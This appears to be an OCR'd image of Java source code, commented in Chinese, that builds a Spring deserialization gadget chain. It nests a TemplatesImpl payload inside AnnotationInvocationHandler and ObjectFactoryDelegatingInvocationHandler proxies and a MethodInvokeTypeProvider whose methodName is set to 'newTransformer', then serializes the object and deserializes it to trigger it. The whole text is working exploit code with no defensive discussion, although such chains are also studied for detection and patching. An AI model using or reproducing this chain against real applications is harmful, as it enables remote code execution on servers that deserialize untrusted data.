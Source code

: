 ```java
    public static void main(String[] args) throws Exception {
        TemplatesImpl tmpl = SerializeUtil.generateTemplatesImpl();
        // 使用 AnnotationInvocationHandler 动态代理
        Class<?> AnnHandler = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Class<?> typeProviderClass = Class.forName("org.springframework.core.SerializableTypeWrapper$TypeProvider");
        Class<?> typeProvider = Class.forName("org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider");
        Class<?> ObjFahandler = Class.forName("org.springframework.beans.factory.support.AutowireUtils$ObjectFactoryDelegatingInvocationHandler");

        // 使用动态代理初始化 AnnotationInvocationHandler,代理ObjFahander的ObjectFactory字段
        Constructor<?> Annconstructor = AnnHandler.getDeclaredConstructors()[0];
        Annconstructor.setAccessible(true);
        HashMap map=new HashMap();
        map.put("getObject",tmpl);
        InvocationHandler AHandler = (InvocationHandler) Annconstructor.newInstance(Target.class, map);
        Object factory=Proxy.newProxyInstance( ClassLoader.getSystemClassLoader(), new Class[]{ObjectFactory.class},AHandler);

        // 创建ObjFahandler
        Constructor Objhandlerconstrutor=ObjFahandler.getDeclaredConstructors()[0];
        Objhandlerconstrutor.setAccessible(true);
        InvocationHandler ObjHandler = (InvocationHandler) Objhandlerconstrutor.newInstance(factory);
        //实现了Templates接口,目的是能从中获取MethodName
        Object type=Proxy.newProxyInstance( ClassLoader.getSystemClassLoader(), new Class[]{Type.class,Templates.class},ObjHandler);


        //创建MethodInvokeTypeProvider类的Provide成员
        HashMap map2=new HashMap();
        map2.put("getType",type);
        InvocationHandler AHandler2 = (InvocationHandler) Annconstructor.newInstance(Target.class, map2);
        Object provider=Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{typeProviderClass},AHandler2);

        //创建MethodInvokeTypeProvider类
        Constructor typeProviderConstructor =typeProvider.getDeclaredConstructors()[0];
        typeProviderConstructor.setAccessible(true);
        //随便传入一个方法防止在初始化时触发
        Object typePro= typeProviderConstructor.newInstance(provider,Object.class.getMethod("toString"),0);
        Field field = typePro.getClass().getDeclaredField("methodName");
        field.setAccessible(true);
        field.set(typePro, "newTransformer");

        SerializeUtil.writeObjectToFile(typePro, "sp1");
        SerializeUtil.readFileObject("sp1");
    }
}
```
